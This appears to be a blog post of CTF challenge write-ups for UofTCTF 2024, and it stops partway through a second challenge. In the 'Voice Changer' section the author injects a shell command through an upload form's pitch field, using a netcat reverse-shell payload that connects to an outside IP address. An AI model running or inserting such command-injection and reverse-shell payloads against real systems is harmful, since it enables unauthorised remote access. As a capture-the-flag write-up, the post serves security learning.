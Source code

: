 ```yaml
---
layout: post
title: UofTCTF 2024 Challenge Writeups
author: m0z, miasto
categories: [Jeopardy]
tags: [ctf,web,forensics]
---
```


# Writeups

## web/Voice Changer
Sourceless web challenge.

Just a file upload with a pitch option. I intercepted the HTTP request and modified the pitch value.

```http
POST /upload HTTP/1.1

------WebKitFormBoundaryHis6nSAKTnz412sw
Content-Disposition: form-data; name="pitch"

randomness
------WebKitFormBoundaryHis6nSAKTnz412sw
Content-Disposition: form-data; name="input-file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryHis6nSAKTnz412sw--
```

The "randomness" value is reflected in our output from a ffmpeg command. I tried command injection and noticed shell errors were being printed.

I managed to get a reverse shell by passing `a" ||nc 54.174.18.49 3000 -e sh;` and found the flag located at `/secret.txt` location.

`uoftctf{Y0UR Pitch IS 70O H!9H}`

## web/The Varsity
We have a javascript app with source this time. We can identify that the flag is located in the article array as part of the last element:

```js
const articles = [
  {
    "title": "Pioneering the Future: UofT's Revolutionary AI Research",
    "content": "The University of Toronto continues to lead groundbreaking research in artificial intelligence, with its latest project aiming to develop algorithms that can understand emotions in text. Spearheaded by a team of international students, this initiative promises to revolutionize how machines interact with human language."
  },
  ...
  {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
];
```
